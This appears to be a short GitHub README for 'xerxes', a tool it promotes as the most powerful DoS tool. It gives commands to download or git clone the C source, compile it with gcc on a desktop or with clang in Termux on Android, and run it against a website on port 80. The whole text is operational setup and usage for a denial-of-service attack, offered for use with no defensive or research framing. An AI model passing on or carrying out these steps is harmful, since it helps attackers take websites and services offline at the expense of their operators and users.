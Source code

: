 # h_fack
# xerxes XERXES the most powerful DoS tool by zanyarjamal Download the File xerxes.c to your Desktop Open Terminal and type these commands cd Desktop gcc xerxes.c -o xerxes *Usage : ./xerxes www.fakesite.com 80  On Android:  #Open Termux app  #Install Git  #Install Clang  #Git clone https://github.com/ngrock90/xerxes.git  #Cd Xerxes  #chmod +x *  #clang xerxes.c -o xerxes  *Usage: ./xerxes www.fakesite.com 80
